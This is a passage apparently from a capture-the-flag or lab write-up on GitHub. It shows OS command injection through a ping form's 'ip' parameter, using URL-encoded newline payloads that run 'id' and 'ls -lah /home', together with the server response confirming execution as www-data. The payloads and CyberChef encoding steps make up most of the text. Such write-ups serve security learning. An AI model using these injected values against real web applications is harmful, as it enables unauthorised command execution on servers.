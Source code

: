 <p>
  
- ip=127.0.0.1%0A%2fusr%2fbin%2fid&submit=<br>
- ip=127.0.0.1%0Aid&submit=<br>
- ip=127.0.0.1%0Aid%0A&submit=<br>
- ip=127.0.0.1%0A%2fusr%2fbin%2fid%0A&submit=<br><br>

- uid=33(www-data) gid=33(www-data) groups=33(www-data)</p>

```bash
HTTP/1.1 200 OK
Date: Tue, 05 Aug 2025 xx:xx:xx GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 490
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.023 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.031 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.034 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.035 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3078ms
rtt min/avg/max/mdev = 0.023/0.030/0.035/0.004 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

<br>

<h3>CyberChef</h3>

<p>

- URL Decode</p>

<img width="1227" height="251" alt="image" src="https://github.com/user-attachments/assets/12865395-a894-4986-b87b-3df2fc0387f2" />

<p>

- <code>ls -lah /home</code> = <code>ls%20-lah%20/home</code></p>

<img width="1229" height="156" alt="image" src="https://github.com/user-attachments/assets/fd7ac812-31f8-49aa-9065-3c6fc9a42354" />


<p>

- athena<br>
- ubuntu</p>

<img width="848" height="330" alt="image" src="https://github.com/user-attachments/assets/38312f7d-a93c-4f3d-906e-d2917f0d54da" />

